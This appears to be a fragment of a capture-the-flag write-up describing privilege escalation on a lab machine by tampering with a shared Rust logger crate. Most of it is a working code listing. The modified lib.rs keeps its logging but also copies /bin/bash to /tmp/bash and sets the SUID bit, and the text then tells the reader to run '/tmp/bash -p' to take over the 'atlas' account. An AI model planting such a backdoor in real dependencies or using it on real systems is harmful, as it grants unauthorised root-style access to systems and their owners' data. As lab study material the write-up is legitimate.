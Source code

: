 The exploitation involves modifying `/opt/crates/logger/src/lib.rs` to copy `/bin/bash` to `/tmp/bash` and add SUID to it, like this:

### Modifing lib.rs 

```bash
extern crate chrono;

use std::fs::{self, OpenOptions};
use std::io::Write;
use std::process::Command;
use chrono::prelude::*;

pub fn log(user: &str, query: &str, justification: &str) {
    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!(
        "[{}] - User: {}, Query: {}, Justification: {}\n",
        timestamp, user, query, justification
    );

    let mut file = match OpenOptions::new()
        .append(true)
        .create(true)
        .open("/opt/tipnet/access.log")
    {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }

    // Copy /bin/bash to /tmp/bash
    if let Err(e) = fs::copy("/bin/bash", "/tmp/bash") {
        println!("Error copying file: {}", e);
        return;
    }

    // Set SUID permission on /tmp/bash
    if let Err(e) = Command::new("chmod")
        .args(&["+s", "/tmp/bash"])
        .output()
    {
        println!("Error setting SUID permission: {}", e);
        return;
    }
}
```
Then run `/tmp/bash -p` after a few minutes to gain control of atlas
